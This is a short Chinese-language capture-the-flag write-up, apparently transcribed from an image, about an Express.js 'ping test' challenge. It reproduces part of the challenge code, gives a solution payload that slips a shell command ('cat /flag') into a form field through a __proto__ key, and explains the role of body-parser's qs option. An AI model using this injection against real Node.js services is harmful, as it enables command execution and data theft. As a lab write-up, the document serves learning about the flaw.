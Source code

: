 ```js
	});

});
app.get('/',
function(req, res, next) {
	res.redirect('index');
});

app.get('/index',
function(req, res, next) {
	res.send('<title>ping test</title><form action="/ping" method="POST">Ip:<input type="text" name="ping[ip]"" placeholder="default value 114 dns"><br>Times:<input type="text" name="ping[time]"  value="1"><input type="submit" value="Ping !"></form> ');
});

app.post('/test',(req,res,next)=>{
	ping = req.body.ping;
	console.log({}.dnm);
	res.send("wtf")
})

app.listen(port);
```





有趣的题目，payload是：

```
ping[__proto__][ip]=1|cat+/flag
```

这里经过fuzz发现这样可以污染到ping数组（但是无法达成原型链污染的效果）感到疑惑，不知道原理是什么。。但是知道导致这样的原因是：

```js
app.use(bodyParser.urlencoded({
	extended: true
}))
```

翻阅了一下官方文档：

```
https://github.com/expressjs/body-parser#bodyparserurlencodedoptions
```

这样会启用qs库，qs库当中有这么一段：



By default, when nesting objects **qs** will only parse up to 5 children deep. This means if you attempt to parse a string like `'a[b][c][d][e][f][g][h][i]=j'` your resulting object will be:

```js
var expected = {
    a: {
        b: {
            c: {
                d: {
                    e: {
                        f: {
                            '[g][h][i]': 'j'
                        }
                    }
                }
            }
        }
    }
};
```